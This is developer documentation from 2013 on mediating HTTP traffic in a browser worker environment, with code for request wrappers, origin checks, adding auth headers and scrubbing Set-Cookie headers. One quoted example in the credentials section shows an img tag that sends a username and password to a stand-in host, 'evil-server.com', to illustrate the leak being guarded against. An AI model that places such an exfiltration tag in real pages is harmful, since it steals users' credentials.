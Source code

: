 Mediating Traffic for Security and Privacy
==========================================

2013 pfraze


## Overview

The safety of the user's information relies on smart traffic policies which are enforced by the environment. This document explains how to enforce those policies, and illustrates some tools and common patterns.


## Basics

Traffic mediation is accomplished by the 'request wrapper', which is minimally defined as follows:

```javascript
Environment.request = function(origin, request) {
	// pass the request to Link for fulfillment
	return Link.request(request);
};
```

All worker servers will use this function to issue requests; it's up to the in-document servers whether to use `Environment.request` rather than `Link.request`.


## Common Patterns and Tools

### Link.parseUri

`Link.parseUri` wraps [Stephen Levithan's parseUri](http://stevenlevithan.com/demo/parseuri/js/), a function which breaks a URL into its component pieces. Some common uses for this:

```javascript
var urld = Link.parse.url(request);

// trusted remote hosts
if (/https?/.test(urld.protocol) && urld.host == 'mysite.com') {
	return Link.request(request);
}

// local traffic
if (urld.protocol == 'httpl') {
	return Link.request(request);
}
```

### instanceof origin

You can check the prototype of the request origin to make decisions.

```javascript
if (origin instanceof WorkerServer) {
	// make decisions for user applications
} else {
	// make decisions for (presumably trusted) in-document applications
}
```


## Auth & Set-Cookie headers

You never want to let credentials leak back into user applications, as they may be able to pass that data out to a remote host.

 > Even a totally isolated worker can reach a remote server! For instance, what happens when they put `<img src="http://evil-server.com/picture.png?user=pfraze&password=foobar" />` in their HTML? Unless you have highly-restrictive [Content Security Policies](https://developer.mozilla.org/en-US/docs/Security/CSP), the data in the query parameters will escape.

For this reason, it is best to add Auth headers to requests in the environment. For instance:

```javascript
Environment.request = function(origin, request) {
	//...
	// add credentials to sessions
	if (MySessionManager.hasSession(origin, request)) {
		Link.headerer(request.headers).setAuth(MySessionManager.getSession(origin, request));
	}
	// ...
};
```

It is also a good idea to scrub session headers such as 'Set-Cookie':

```javascript
Environment.request = function(origin, request) {
	//...
	// dispatch the request
	return Link.request(request)
		.then(function(response) { // on response codes 200-399
			delete response.headers['set-cookie'];
			return response;
		})
		.except(function(err) { // on response codes 400+
			delete err.response.headers['set-cookie'];
			return err;
		})
};
```

## Further Topics

 - [Using LinkJS, the HTTP wrapper](../lib/linkjs.md)
 - [Using the Environment API](lib/environment.md)
